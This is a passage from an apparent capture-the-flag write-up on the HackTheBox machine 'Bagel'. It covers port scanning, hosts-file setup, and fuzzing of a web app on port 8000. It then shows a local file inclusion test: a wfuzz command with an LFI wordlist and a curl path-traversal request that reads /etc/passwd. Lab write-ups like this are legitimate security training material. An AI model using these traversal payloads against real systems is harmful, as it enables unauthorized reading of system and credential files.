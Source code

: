 ```bash
|_    </html>                                                                                                   
|_http-title: Did not follow redirect to http://bagel.htb:8000/?page=index.html                                 
| http-methods:                                                                                                 
|_  Supported Methods: GET OPTIONS HEAD                                                                         
|_http-server-header: Werkzeug/2.2.2 Python/3.10.9   
```

## PORT 8000 (HTTP)

The port redirects to bagel.htb, so adding that in hosts file

<img src="https://i.imgur.com/rXKIm5s.png"/>

Adding `bagel.htb` in `/etc/hosts`

<img src="https://i.imgur.com/2TiJHPC.png"/>
<img src="https://i.imgur.com/VoeYaIj.jpg"/>


Fuzzing for files and directories it didn't showed anything other than /orders

<img src="https://i.imgur.com/qksbhjO.png"/>

Orders didn't showed anything

<img src="https://i.imgur.com/fwNw2ls.png"/>

Trying for subdomain enumeration with `wfuzz`, it didn't showed any results as well

<img src="https://i.imgur.com/NrHAKfP.png"/>

## Foothold

If we go back to home page, we can see it's include an html page with `page` parameter, we can try testing for Local File Inclusion (LFI) here

```bash
wfuzz -c -w /usr/share/seclists/Fuzzing/LFI/LFI-Jhaddix.txt -u 'http://bagel.htb:8000/?page=FUZZ' --hw 3
```

<img src="https://i.imgur.com/SZmFFsl.png"/>

```bash
curl 'http://bagel.htb:8000/?page=../../../../../../../../../../../../../../../../etc/passwd'
```

<img src="https://i.imgur.com/UmdDlvC.png"/>
